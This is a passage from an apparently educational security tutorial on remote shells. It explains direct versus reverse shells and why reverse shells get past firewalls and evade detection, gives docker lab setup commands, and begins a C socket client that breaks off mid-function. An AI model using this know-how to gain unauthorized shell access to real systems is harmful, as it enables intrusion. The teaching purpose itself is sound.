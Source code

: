 # Remote shell

From a security point of view, a remote shell is usually part of a shellcode to enable unauthorized remote access to a system. This tutorial is heavily based in [1], [2], [3] and [4].

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity6:latest .
```
and runned with:
```bash
docker run --privileged -it basic_cybersecurity6:latest
```

----

The content used for this tutorial will be touching into remote shells.

According to [1], there are basically two ways to get remote shell access:

- **Direct Remote Shells**. A direct remote shell behaves as a server. It works like a ssh or telnet server. The remote user/attacker, connects to a specific port on the target machine and gets automatically access to a shell.
- **Reverse Remote Shells**. These ones work the other way around. The application running on the target machine connects back (calls back home) to a specific server and port on a machine that belongs to the user/attacker.

The *Reverse Shell* method has some advantages:

- Firewalls usually block incoming connections, but they allow outgoing connection in order to provide Internet access to the machine’s users.
- The user/attacker does not need to know the IP of the machine running the remote shell, but s/he needs to own a system with a fixed IP, to let the target machine call home.
- Usually there are many outgoing connections in a machine and only a few servers (if any) running on it. This makes detection a little bit harder, specially if the shell connects back to something listening on port 80…

Let's write a client and a server that will allow us to explore both  methods:

### The client
```C
#include <stdio.h>
#include <stdlib.h>  
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int
client_init (char *ip, int port)
{
  int                s;
  struct sockaddr_in serv;

  if ((s = socket (AF_INET, SOCK_STREAM, 0)) < 0)
    {
      perror ("socket:");
      exit (EXIT_FAILURE);
    }

  serv.sin_family = AF_INET;
  serv.sin_port = htons(port);
  serv.sin_addr.s_addr = inet_addr(ip);

  if (connect (s, (struct sockaddr *) &serv, sizeof(serv)) < 0)
```